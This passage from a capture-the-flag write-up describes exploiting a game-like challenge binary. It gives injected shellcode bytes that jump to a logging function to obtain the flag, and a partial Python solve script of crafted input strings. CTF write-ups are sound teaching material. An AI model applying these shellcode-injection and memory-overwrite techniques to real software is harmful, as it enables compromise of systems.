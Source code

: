 
At this point we are free to write any characters we like. Note that this means we must be careful from this point onwards, since spamming hard drop will overwrite whatever the heap points to with a bunch of spaces. infuzion suggested writing at `0x40011f`, because it was inside of `malloc`, which we could call in a controlled way (by getting a high score). I decided to write this shellcode:
```
bf 41 41 41 41  mov    edi,  0x41414141
68 73 0d 40 00  push   0x400d73
c3              ret
```

`0x400d73` is the `hw_log` function, which will take our argument in rdi and make the special syscall. Doing this gets the flag.

![Running the final solution](./final.gif)

Here's the final script we used in the competition:
```py
import interact

p = interact.Process()

# cheats
p.send("\n                 \n\n                 \n\n                 \n\nx x xd xdd xdd a xdd \n\naaa cxaaaaa xaaaaaa aaa aaaaaa caaaaaa ddddd aaa xdd cdddd d xa cdddd                  \n")

# disable high score write
p.send("\nOzaaaaaassssssssssssssssssL                 \n\n                 TAZ\n")

# would like to overwrite 0x40021e with 0x50
```